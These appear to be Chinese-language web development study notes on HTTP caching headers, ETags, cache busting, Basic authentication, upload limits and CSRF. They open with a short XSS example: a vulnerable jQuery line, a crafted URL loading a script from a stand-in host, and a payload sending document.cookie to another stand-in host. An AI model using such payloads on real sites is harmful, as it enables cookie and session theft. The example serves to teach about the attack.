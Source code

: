 ***XSS攻击获取cookie***
``` js
// 前端
$('#box').html(location.hash.replace('#', ''))

// 攻击者发现构造url
'http://a.com/pathname#<script src="http://b.com/c.js"></script>'
// url压缩
'http://url.cn/fasdlfb'// 将它发送给登录的用户

//c.js将用的cookie提交给c网站
location.href = "http://c.com/?" + document.cookie;

```

**缓存**
1. 添加Expires或Cache-Control到报文头中
2. 配置ETags
3. 让Ajax可缓存

缓存静态资源----GET请求
1. 判断lastModified（服务器端返回本地文件的最后修改时间）是否等于if-modified-since（浏览器会向服务器传送报头，询问该时间之后文件是否有被修改过，本地浏览器存储的文件修改时间）,询问服务器是否有更新的版本，如果服务器端的资源没有变化，则时间一致，自动返回HTTP状态码304（Not Changed.）状态码，内容为空，客户端接到之后，就直接把本地缓存文件显示到浏览器中，这样就节省了传输数据量。

缺点：
1. 文件的时间戳改动，但内容不一定改动
2. 时间戳精确到秒级别，更新频繁的内容将无法生效
3. 浪费带宽

2. 服务器端生成ETag----根据文件内容生成散列值
判断if_None-Match是否等于ETag

缺点：仍然会发起一个请求

3. 服务器在响应内容的同时，让浏览器也缓存
在响应里设置Expire/Cache-Control，浏览器将根据该值进行缓存

Expire: 
1. GMT时间字符串，浏览器接收到这个时间后，在到期时间之前，都不会再发起请求，
2. 缺陷： 浏览器和服务器时间可能不一致

Cache-Control：设置max-age

***max-age会覆盖Expire***

**清除缓存**
每次发布设置版本号和根据内容生产hash值更加高效

**Basic认证：**将用户和密码组合，转为base64字符串存在请求报文的Authorization中

### 数据上传

数据上传与安全
1. 内存限制->上传大小超过限制就停止接收数据，通过流式解析，将数据流导向磁盘，Node只保留文件路径等小数据
2. CSRF->跨站请求伪造
